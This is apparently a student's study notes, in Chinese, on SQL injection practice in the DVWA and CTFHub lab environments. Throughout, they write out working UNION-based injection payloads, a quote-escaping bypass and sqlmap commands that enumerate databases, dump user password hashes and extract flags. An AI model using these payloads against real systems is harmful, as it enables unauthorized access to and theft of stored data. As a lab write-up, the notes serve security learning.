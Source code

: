 # 张心玥学习报告02-2
# 学习笔记

## DVWA靶场SQL注入
### 手工注入LOW
已知数据库为dvwa

1. 继续查询数据库中的表
   输入：1' union select 1,table_name COLLATE utf8_general_ci from information_schema.tables where table_schema='dvwa
   得到
   ![](./attachment/2022-03-26-14-57-03.png)


2. 查询表中的字段
   输入：1' union select 1,group_concat(column_name) COLLATE utf8_general_ci from information_schema.columns where table_name='users
   得到
   ![](./attachment/2022-03-26-14-57-42.png)


3. 查询表中的内容
   输入：1' union select group_concat(user_id,first_name,last_name),group_concat(user,password) COLLATE utf8_general_ci from users#
   得到
   ![](./attachment/2022-03-26-14-57-58.png)

得到的密文为MD5加密，解密即可得到密码

注：手工注入的时候遇到Illegal mix of collations for operation 'UNION'是因为字符编码问题，在sql语句from前添加 COLLATE utf8_general_ci 就可

### SQLmap LOW
运行sqlmap
1. 检测网站的漏洞
   输入：python sqlmap.py -u"http://127.0.0.1/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="security=low; PHPSESSID=jvkp3tq5cugu8emi4liqljfhrf"
   得到
   ![](./attachment/2022-03-26-15-11-16.png)
   注：-u:url

2. 获取数据库名
   输入：python sqlmap.py -u"http://127.0.0.1/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="security=low; PHPSESSID=jvkp3tq5cugu8emi4liqljfhrf" --dbs
   得到
   ![](./attachment/2022-03-26-15-14-07.png)
   注：dbs：database sever（获取所有数据库名）

3. 获取指定数据库内容
   输入：python sqlmap.py -u"http://127.0.0.1/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="security=low; PHPSESSID=jvkp3tq5cugu8emi4liqljfhrf" -D dvwa --tables
   得到
   ![](./attachment/2022-03-26-15-16-39.png)
   注：-D：database 指定想要获取数据库的名
   --tables 列出数据库表

4. 获取指定数据库列/表项
   输入：python sqlmap.py -u"http://127.0.0.1/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="security=low; PHPSESSID=jvkp3tq5cugu8emi4liqljfhrf" -D dvwa -T users --columns
   得到
   ![](./attachment/2022-03-26-15-21-43.png)
   注：-T table 指定想要获取的表名
   --columns 列出表项/列

5. 获取数据
   输入：python sqlmap.py -u"http://127.0.0.1/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="security=low; PHPSESSID=jvkp3tq5cugu8emi4liqljfhrf" -D dvwa -T users --dump
   得到
   ![](./attachment/2022-03-26-15-26-03.png)
   注：--dump 读取数据

得到的密文为MD5加密，解密即可得到密码

### SQL注入防御
过滤用户输入内容，不让输入sql语句，将特殊符号替换成空，或者判断用户输入sql语句就终止执行。

### SQL注入Medium
medium转义了特殊字符，如
原本sql语句：
1' union select 1,table_name COLLATE utf8_general_ci from information_schema.tables where table_schema='dvwa
转义为：
1\' union select 1,table_name COLLATE utf8_general_ci from information_schema.tables where table_schema=\'dvwa
所以sql语句错误，无法正常执行
解决办法：
输入内容中避免特殊字符存在，进行等价替换，如：
将 'dvwa' 替换成 database()
或
将 'dvwa' 替换成 0x64767761
注：0x64767761 为 dvwa 的十六进制格式

### ctfhub SQL注入
#### 整数型注入
输入1原始页面
![](./attachment/2022-03-27-14-54-07.png)
1. 判断是否存在注入
   1. 加单引号
   得到![](./attachment/2022-03-27-14-55-02.png)
   sql语句出错，程序无法正常从数据库中查询出数据，存在异常。
   1. 加 and 1=1
   得到![](./attachment/2022-03-27-14-55-57.png)
   语句执行正常。
   1. 加 and 1=2
   得到![](./attachment/2022-03-27-14-57-04.png)
   语句可以正常执行，但是无法查询出结果，存在异常。
   满足以上三点，判断有整数型注入。


2. 查询字段数量
   1. 输入 1 order by 1
   得到![](./attachment/2022-03-27-15-02-28.png)
   1. 输入 1 order by 2
   得到![](./attachment/2022-03-27-15-02-50.png)
   1. 输入 1 order by 3
   得到![](./attachment/2022-03-27-15-03-15.png) 
   所以判断字段数为2


3. 查询SQL语句插入
   注：此时要先保证之前的数据查不出来，之后再union。因为id=-1数据不存在数据库中。所以继续查询。
   输入 -1 union select 1,2
   得到![](./attachment/2022-03-27-15-05-13.png)
   所以判断2处可以插入sql语句


4. 获取数据库名
   1. 获取当前数据名
   输入 -1 union select 1,database()
   得到![](./attachment/2022-03-27-15-09-43.png)
   所以当前数据库名称为sqli

   1. 获取所有数据库名
   输入 -1 union select 1,group_concat(schema_name)from information_schema.schemata
   得到![](./attachment/2022-03-27-15-23-28.png)


5. 获取数据库表名
   1. 获取当前数据库所有表名
   输入 -1 union select 1,group_concat(table_name) from information_schema.tables where table_schema='sqli'
   得到![](./attachment/2022-03-27-15-27-23.png)

   1. 逐个获取表名
   输入 -1 union select 1,(select table_name from information_schema.tables where table_schema='sqli' limit 0,1)
   得到![](./attachment/2022-03-27-15-30-02.png)
   输入 -1 union select 1,(select table_name from information_schema.tables where table_schema='sqli' limit 1,1)
   得到![](./attachment/2022-03-27-15-30-54.png)


6. 获取字段名
   输入 -1 union select 1,group_concat(column_name) from information_schema.columns where table_schema='sqli' and table_name='flag'
   得到![](./attachment/2022-03-27-15-33-02.png)


7. 获取数据
   输入 -1 union select 1,group_concat(flag) from sqli.flag
   得到![](./attachment/2022-03-27-15-34-31.png)


至此得到flag：
ctfhub{5f3c2363dc7cb398a7e24388}

#### 字符型注入
输入1原始界面
![](./attachment/2022-03-27-15-49-22.png)
所以需要规避掉单引号再插入查询语句
1. 输入 1’
   得到![](./attachment/2022-03-27-15-52-42.png)
   所以确定闭合方式：1’


2. 查询数据库名
   输入 -1' union select 1,database()#
   得到![](./attachment/2022-03-27-15-58-27.png)
   数据库名为sqli


3. 获取数据库表名
   输入 -1' union select 1,group_concat(table_name) from information_schema.tables where table_schema='sqli'#
   得到![](./attachment/2022-03-27-16-04-20.png)


4. 获取数据库中字段
   输入 -1' union select 1,group_concat(column_name) from information_schema.columns where table_schema='sqli' and table_name='flag'#
   得到![](./attachment/2022-03-27-16-07-56.png)


5. 获取数据
   输入 -1' union select flag,1 from flag#
   得到![](./attachment/2022-03-27-16-09-14.png)
至此得到flag：
ctfhub{0a0a5e27bc8a21d19fe224c1}
